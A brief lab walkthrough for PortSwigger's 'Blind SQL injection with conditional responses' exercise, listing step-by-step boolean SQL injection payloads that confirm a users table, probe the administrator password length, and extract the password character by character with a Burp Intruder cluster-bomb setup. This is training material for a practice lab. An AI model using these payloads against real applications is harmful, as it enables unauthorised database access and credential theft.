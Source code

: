 # Blind SQL injection with conditional responses
https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses

Step - 1
-
`
'
`</br>
Content Length Change > Single Quotes

Step - 2
-
`
' AND '1'='1
`

Step - ?
-
`
' AND (SELECT 'a' FROM users LIMIT 1)='a
`</br>
1. Table Name: users (Just Confirm)

Step - ?
-
`
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
`</br>
1. Column Name: username (Just Confirm)</br>
2. username Value: administrator (Just Confirm)

Step - 3
-
`
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
`</br>
Content Length Change
1. password Length: 20

Step - 4
-
`
' AND (SELECT SUBSTRING(password,§1§,1) FROM users WHERE username='administrator')='§a§
`</br>
1. Attack Type: Cluster bomb</br>
1. Payload Set 1: 1-20</br>
1. Payload Set 2: a-z
